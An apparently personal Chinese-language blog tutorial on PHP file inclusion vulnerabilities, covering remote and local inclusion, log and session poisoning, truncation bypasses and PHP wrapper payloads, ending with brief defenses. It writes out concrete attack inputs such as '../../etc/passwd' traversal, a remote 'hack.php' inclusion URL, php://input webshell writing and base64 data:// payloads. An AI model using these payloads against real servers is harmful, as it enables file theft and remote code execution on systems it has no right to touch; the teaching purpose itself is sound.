 ```yaml
---
title: 文件包含漏洞
tags:
  - 文件包含
  - 漏洞原理
  - PHP
categories:
  - [安全技术]
  - [漏洞原理]
date: 2025-04-10 20:56:11
description: 本文介绍了文件包含漏洞的基本原理
---
```


# 文件包含漏洞

# 原理

服务端提供了从另一个页面加载另一个页面的功能，且该功能的接口是用户可控的，由于程序未对用户的输入做严格的过滤，或者过滤不够严谨，就可能导致文件包含的漏洞。文件包含的函数又include\include_once_once，include在包含一个文件时如果出错只会抛出警告，程序还是会继续执行，require则会直接结束，还有可能是file_get_contengs。这写函数将直接读取文件内容，并将文件内容原样输出到要包含文件的文件中，因为该文件拥有合乎规则的执行权限，所以，被包含文件中的恶意代码将被执行。我们利用文件包含漏洞上传的图片马往往就利用文件包含的这个特性得以执行。

`需要开启allow_url_include 和 allow_url_fopen` 允许文件包含和允许读取文件

# 远程文件包含

可以使用http协议从远程包含我们的恶意代码到目标文件

`?file=http://www.baidu.com/hack.php` 任意文件后缀都可以

# 本地文件包含

配合目录穿越漏洞，获取服务器本地文件系统的敏感文件、执行php代码

**目录穿越：** ../../../../../../../etc/passwd

### session文件包含

利用php默认的session存储路径及来实现恶意代码执行

linux session文件在目录`/var/lib/php/session`中，可以通过phpinfo搜索`session_save_path`查看，session文件的命名规则是`sess_phpsessionid` session我们可以通过抓包获取。如果用户上传的参数被写入到session中，我们就可以利用文件包含漏洞执行恶意代码，前提是当前php中间件具有对session文件及其父目录的读权限。

### sshlog文件包含

利用ssh的日志信息，通过ssh登录时将恶意代码写入到用户名部分，再利用远程文件包含漏洞执行该文件。

ssh默认日志路径：`/var/log/auth.log`

ssh登录姿势：ssh @192.168.0.102

日志文件中记录

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled.png

### apache2访问日志，错误日志

日志文件路径：`/var/log/apache2/access.log|error.log`

利用方式：直接访问不存在的路径：`http://www.armandhe.com/<?php phpinfo();?>` 因为url中的数据会被编码，所以在访问的时候需要抓包后，修改上传参数为为编码的格式。

**那么mysql的访问日志是不是也可以做同样的操作**

**上述访问日志的方式有一个前提条件就是php要有读这些目录以及文件的权限**

# 绕过姿势

### 本地文件包含有限制的染过

%00截断

路劲长度截断

**一个特性：linux中目录最长不超过4096字节，超出的部分将被丢弃，windows中目录最长不超过256字节，超过的将被丢弃**

通过…………………………………………或者../../../../../截断

### 远程文件包含绕过

？# space空格

### php伪协议

**php://filter ———-读取本地文件 只需开启allow_url_fopen**

`?file=php://filter/convert.base64-encode/resource=file://c:/windows/win.ini`

有些文件中包含一些特殊字符，直接用file协议可能无法读取成功，所以先进行base编码之后再来传输。

**php://input—————读取post数据 需同时开启两个配置项**

当代码中处理用户上传数据使用的是file_get_contents的时候就可以使用该协议

该函数获取原始post请求的方式是`file_get_contents("php://input")`

那么我们就可以将`php://input` 作为参数传上去，而具体的post内容通过抓包更改请求头类型，添加请求体来实现。

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%201.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%201.png

可以直接在当前目录中写入木马，然后用蚁剑链接

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%202.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%202.png

或者直接执行操作系统命令

![](https://www.notion.so/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%203.png)

%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%2087f37670f63149bd81c49c12a755ab8e/Untitled%203.png

**file:// —————读取本地文件**

`?file=file:///etc/passwd`

**data://————读取本地文件 配合file_get_contents使用**

`?file=data://text/plain;base64,cGhwaW5mbygpOw==`

**phar://————解压缩 有效**

`?file=phar://hack.png/hack.php` hack实际上是一个压缩文件，只不过后缀名在压缩完成后被手动修改伪png来绕过过滤策略，且压缩的格式必须为zip。可以配合文件上传漏洞使用

**zip://————-解压缩 有效**

`?file=zip://hack.png#hack.php` hack文件是在hack.zip中真实存在的，hack是压缩文件压缩后修改的后缀名为png。功能和phar一样

**测试代码**fang

[hack.zip](hack.zip)

[pharTest.php](pharTest.php)

# 防御

关闭allow_url_include

将open_basedir 设置为指定目录，即只允许该目录文件被访问。

设置白名单

设置黑名单，过滤危险协议关键字，

# 危害

1. 敏感文件泄露
2. 被getshell
3. 任意命令执行